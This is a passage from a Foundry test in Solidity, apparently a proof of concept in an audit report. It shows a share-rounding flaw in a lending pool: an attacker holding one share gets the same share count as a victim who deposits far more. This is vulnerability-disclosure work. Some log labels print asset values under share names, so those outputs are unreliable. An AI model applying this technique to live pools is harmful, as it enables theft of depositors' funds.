 ```solidity

            
            pool.withdraw(linearRatePool,1,user,user);
            (,,,,,,,,, totalDepositAssets, totalDepositShares) = pool.poolDataFor(linearRatePool);
            
           

            require(totalDepositShares == 1, "sharesReceived is not one as expected");


        }
        uint256 attackerTotalDepositAssets = totalDepositAssets;
        uint256 attackerDepositShares = totalDepositShares;
        vm.stopPrank();
        vm.startPrank(user2);
        (,,,,,,,,, totalDepositAssets, totalDepositShares) = pool.poolDataFor(linearRatePool);
        uint256 User2DepositAmount  = 2 * totalDepositAssets;
        asset1.mint(user2, User2DepositAmount -10);
        asset1.approve(address(pool), User2DepositAmount );
        pool.deposit(linearRatePool, User2DepositAmount -10, user2);


        

        (,,,,,,,,, totalDepositAssets, totalDepositShares) = pool.poolDataFor(linearRatePool);
        uint256 userTotalDepositAssets = User2DepositAmount -10;
        uint256 userDepositShares = totalDepositShares - attackerDepositShares;
        require(totalDepositShares == 2, "sharesReceived is not zero as expected");


        //NOTE: Here user1/attacker depsosited very less amount than the user2 
        console2.log("-----Here user1/attacker depsosited very less amount than the user2 ------");
        console2.log("attackerTotalDepositAssets",attackerTotalDepositAssets);
        console2.log("userTotalDepositAssets",userTotalDepositAssets);


        assertLt(attackerTotalDepositAssets,userTotalDepositAssets, "user2 deposited is not big amount than the user1" );


        //NOTE: Here Both shares are the same and it's 1
        console2.log("------Here Both shares are the same and it's 1------");
        console2.log("attackerDepositShares",attackerTotalDepositAssets);
        console2.log("userDepositShares",userTotalDepositAssets);


        require(userDepositShares == attackerDepositShares, "sharesReceived is not same as expected");

    }
```
<img width="1016" alt="image" src="https://github.com/user-attachments/assets/0fca0433-2223-4b75-8ff9-fe8742267f64">

